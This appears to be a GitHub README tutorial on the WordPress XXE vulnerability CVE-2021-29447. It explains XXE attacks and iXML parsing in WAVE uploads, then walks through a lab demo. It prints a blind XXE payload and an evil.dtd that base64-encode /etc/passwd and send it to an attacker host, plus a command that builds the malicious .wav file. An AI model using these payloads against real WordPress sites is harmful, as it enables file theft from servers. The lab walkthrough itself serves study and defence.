




## WordPress XXE Vulnerability CVE-2021-29447

## Topics

- What is Wordpress??
- XXE Attack
- WordPress Vulnerability
- Demo


## What is WordPress??

- WordPress is the simplest, most popular way to create your own website or blog. 
  
- On a slightly more technical level, WordPress is an open-source content management system licensed under GPLv2, which means that anyone can use or modify the WordPress software for free. 

- A content management system is basically a tool that makes it easy to manage important aspects of your website – like content – without needing to know anything about programming.

- With WordPress, you can create:

    1,Business websites
    2,eCommerce stores
    3,Blogs
    4,Portfolios
    5,Resumes
    6,Forums
    7,Social networks
    8,Membership sites

- WordPress powers over 43.3% of all the websites on the Internet. i.e more than one in four websites that you visit are likely powered by WordPress.

- WordPress was created as a standalone project all the way back in 2003, originating as an offshoot of a previous project called b2/cafelog.

- WordPress is open-source software, so nowadays it’s made by a huge community of contributors. But if we were to trace WordPress’ origins back to its roots, its original creation was a collaboration between **Matt Mullenweg and Mike Little**.


## XML eXternal Entity (XXE) Attack

- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
- In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

#### How do XXE vulnerabilities arise?

- Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. 
- XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
- XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

#### Types of XXE Attacks

- **Exploiting XXE to retrieve files**, where an external entity is defined containing the contents of a file, and returned in the application's response.
- **Exploiting XXE to perform SSRF attacks**, where an external entity is defined based on a URL to a back-end system.
- **Exploiting blind XXE exfiltrate data out-of-band**, where sensitive data is transmitted from the application server to a system that the attacker controls.
- **Exploiting blind XXE to retrieve** data via error messages, where the attacker can trigger a parsing error message containing sensitive data.



## WordPress Vulnerability

- WordPress versions 5.7, 5.6.2, 5.6.1, 5.6, 5.0.11 are affected to XML eXternal Entity vulnerability where an authenticated user with the ability to upload files in the Media Library can upload a malicious WAVE file that could lead to remote arbitrary file disclosure and server-side request forgery (SSRF).

- WordPress uses ID3 library to parse information about an audio file uploaded in the Media Library that was vulnerable to XXE.

#### Metadata and iXML

- Audio file format MPEG layer I, layer II and layer III (MP3) need a way to include information about the track (such as Artist name, Album name, Year, etc…). ID3 is a small chunk of extra data at the end of the file to carry information about the audio. The tag consists in 128 bytes (125 bytes + 3 bytes of “TAG” prefix) and has the following layout:

    | Syntax      | Description   |
    | ----------- | -----------   |
    | Song title  | 30 characters |
    | Artist      | 30 characters |
    | Album       | 30 characters |
    | Year        | 4 characters  |
    | Comment     | 30 characters |
    | Genre       | 1byte         |

- The WAVE file is an instance of a Resource Interchange File Format (RIFF) that is a tagged file format. It has a specific container format (a chunk) that includes a four-character tag and the size (number of bytes) of the chunk. As a derivative of RIFF, WAV files can be tagged with metadata in the INFO chunk and one of usable metadata is called iXML.

- iXML is an open standard for the inclusion of location sound metadata in Broadcast WAVE audio files, video files and also IP video and audio streams. This includes things like Scene, Take and Notes information. 
- WordPress can parse information included in iXML tag by using the simplexml_load_string() function in wp-includes/ID3/getid3.lib.php file that parses a string as XML.

#### XXE Vulnerability

- An author in WordPress can upload media file on WordPress Media Library in order to use it inside a post. Once a WAVE file is uploaded, the wp_read_audio_metadata() WordPress function extracts audio information from the iXML metadata included in **$thisfile_riff_WAVE['iXML'][0]['data']** variable that can contains malicious XML eXternal Entity.
- Talking about CVE-2021-29447 the result of parsed iXML metadata is not sent back to the user, so to exploit it we need a blind XXE payload. This is doable by including an external Document Type Definition controlled by the attacker. A DTD defines the valid building blocks of an XML document. It defines the document structure with a list of validated elements and attributes. A DTD can be declared inline inside an XML document, or as an external reference. For example, the payload injected inside the iXML WAVE file metadata could be something like:
    ```
    <?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://hacker.com/evil.dtd'>%remote;%init;%trick;]>
    ```
- As you can see, the XML document above includes an external DTD at http://hacker.com/evil.dtd that contains the following payload:
    ```
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

    <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://hacker.com/?p=%file;'>" >
    ```

- The first line assign to the file entity the result of php://filter/read=convert.base64-encode/resource=/etc/passwd. 
  - The PHP wrapper php:// makes us able to access various I/O streams
  -  php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening.
  -  we can convert to base64 the content of a file (in the example above /etc/passwd) and assign the result to the %file entity. Now we can send to our server the content of %file and exfiltrate it.

- Once the malicious WAVE file is uploaded, the attacker receives an HTTP request that includes in the p GET argument the base64 encoded content of /etc/passwd.

- Below is the vulnerable code which is responsible for this XXE exploit in WordPress.Loading of external entity was disabled in php 7 version but when wordpress has changed its php version to 8 this issue has been identified.



## Demo

**Steps:**
1. Install the WordPress Application & create a user who has access to upload media files:
    - Download the below docker-compose file and open terminal in the saved path.
     [docker-compose.yml](docker-compose.yml)
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io` 
    - Open the application using http://your ip:80 and follow the instructions and create a admin user.Once admin user is created you will be redirected to login page and use the credentials to login.
    - Create a new user with **Author** role using below steps
    
    
2. Prepare the DTD file and media file with XXE code:
    - Create a .wav file using below command (Replace ip with hacker server ip )
        ```
        echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<ip>:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
        ```
    - Download below evil.dtd and replace IP with hacker server IP    
        [evil.dtd](evil.dtd)
3. Start Hacker server & upload media file using app.
    - Now move to evil.dtd file location in terminal and start hacker server using below command.
        ```
        pyton3 -m http.server
        ```
    - Then login with newly create user and try to upload the .wav file and check the response in hacker server.
    -  Copy the base64 content and decode content and you will be able to see the contents of etc/passwd file from the server where application is hosted.
    

## References
- [WordPress](https://kinsta.com/knowledgebase/what-is-wordpress/)
- [XXE](https://portswigger.net/web-security/xxe)
- [WordPresss Vulnerability](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/) 
